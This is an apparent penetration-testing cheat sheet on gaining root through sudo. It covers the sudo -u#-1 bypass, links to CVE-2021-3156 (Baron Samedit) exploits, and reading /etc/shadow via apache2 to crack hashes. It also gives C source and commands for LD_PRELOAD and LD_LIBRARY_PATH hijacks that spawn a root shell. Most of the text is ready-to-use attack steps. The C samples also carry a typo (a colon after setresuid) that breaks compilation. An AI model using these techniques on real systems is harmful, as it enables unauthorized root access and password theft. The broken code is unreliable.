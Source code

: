 # Sudo

## Vulnerable Versions
Get sudo version
```bash
sudo -V
```

### Sudo < 1.8.28
```
$ sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


$ sudo -u#-1 /bin/bash
```

### CVE-2021-3156 (Sudo Baron Samedit)
Affects all legacy versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to 1.9.5p1 in their default configuration.
```
https://github.com/worawit/CVE-2021-3156
```

#### CVE-2021-3156 - Sudo 1.8.31 (no bruteforce)
```
https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit

```

## Apache as sudo
If we can run Apache as sudo, use apache2 to read /etc/shadow file:

```bash
/usr/bin/apache2

$ sudo apache2 -f /etc/shadow
Copy the hash and crack it.
```

## Environment Variable

```bash
$ sudo -l
env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```

### LD_PRELOAD

Create the exploit:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0):
	system("/bin/bash -p");
}
```

Compile:

```c
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Run any allowed program using sudo and the shared object created:

```bash
sudo LD_PRELOAD=/tmp/preload.so find
```

### LD_LIBRARY_PATH

Select one shared object to replace (one that sudo can run):

```bash
$ ldd /usr/sbin/apache2
...
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
```

Create the exploit:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0):
	system("/bin/bash -p");
}
```

Compile:

```bash
gcc -fPIC -shared -nostartfiles -o libcrypt.so.1 library_path.c
```

Run any allowed program using sudo and the shared object created:

```bash
sudo LD_LIBRARY_PATH=. apache2
```